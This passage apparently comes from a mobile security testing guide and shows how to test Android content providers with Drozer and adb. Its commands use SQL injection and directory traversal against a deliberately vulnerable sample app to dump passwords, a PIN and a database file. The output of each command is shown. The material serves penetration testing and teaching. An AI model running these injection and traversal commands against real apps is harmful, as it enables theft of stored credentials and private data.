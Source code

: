 SQL Injection may also be used to retrieve data from otherwise protected tables:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

You can automate these steps with the `scanner.provider.injection` module, which
automatically finds vulnerable content providers within an app:

```bash
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

#### File System Based Content Providers

Content providers can provide access to the underlying filesystem. This allows
apps to share files (the Android sandbox normally prevents this). You can use
the Drozer modules `app.provider.read` and `app.provider.download` to read and
download files, respectively, from exported file-based content providers. These
content providers are susceptible to directory traversal, which allows otherwise
protected files in the target application's sandbox to be read.

```bash
dz> run app.provider.download content://com.vulnerable.app.FileProvider/../../../../../../../../data/data/com.vulnerable.app/database.db /home/user/database.db
Written 24488 bytes
```

Use the `scanner.provider.traversal` module to automate the process of finding
content providers that are susceptible to directory traversal:

```bash
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

Note that `adb` can also be used to query content providers:

```bash
$ adb shell content query --uri content://com.owaspomtg.vulnapp.provider.CredentialProvider/credentials
Row: 0 id=1, username=admin, password=StrongPwd
Row: 1 id=2, username=test, password=test
...
```
